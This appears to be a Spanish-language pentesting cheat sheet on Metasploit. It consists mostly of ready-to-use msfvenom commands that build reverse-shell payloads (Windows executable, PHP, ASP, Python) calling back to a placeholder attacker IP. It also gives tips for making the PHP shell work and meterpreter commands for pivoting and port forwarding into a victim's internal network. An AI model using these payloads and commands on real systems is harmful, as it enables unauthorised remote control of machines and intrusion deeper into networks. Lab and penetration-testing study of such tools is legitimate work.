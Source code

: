 Estos payloads están enfocados para cuando se hace el proceso entero con metasploit, pero si solamente queremos que msfvenom nos haga el payload y que el listener se haga por ejemplo con ncat se tiene que hacer con el siguiente comanda

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o payload.exe
```

### RV Shells

#### Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.ex
```

#### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

Recuerda que al crear esta rev_shell hay que entrar dentro y quitar las comillas que hay cuando lo crea metasploit.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FpYcW2Y3tnyxSIalZlWQu%252Fimagen.png%3Falt%3Dmedia%26token%3D0fc8c472-74d3-4ae9-a1c9-88930b883435&width=768&dpr=4&quality=100&sign=352080e42612e5d8389d93caaec17af7668c24dab8368c1e016999929c2308d2)

Quitar el /*

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F75l4jkilGEezZW8KFPY4%252Fimagen.png%3Falt%3Dmedia%26token%3D0ec16f86-c971-419d-a0a3-b315d8d1bf08&width=768&dpr=4&quality=100&sign=13e62c21d34f0f923f62db69236588820acf3c8bb7c7e020b89415ef9c29eb83)

Y al final del script cerrarlo con ?>

#### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

#### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

## Pivoting

```
meterpreter > run autoroute -s 10.10.10.0/24
```

Una vez hayamos hecho autoroute y tengamos acceso a la red interna que no teniamos antes, se pueden utilizar todos módulos de Metasploit (escanear, exploit etc).

## Port Forwading

```
meterpreter > portfwd add -l <puerto local> -p <puerto maquina victima> -r <IP victima>
```
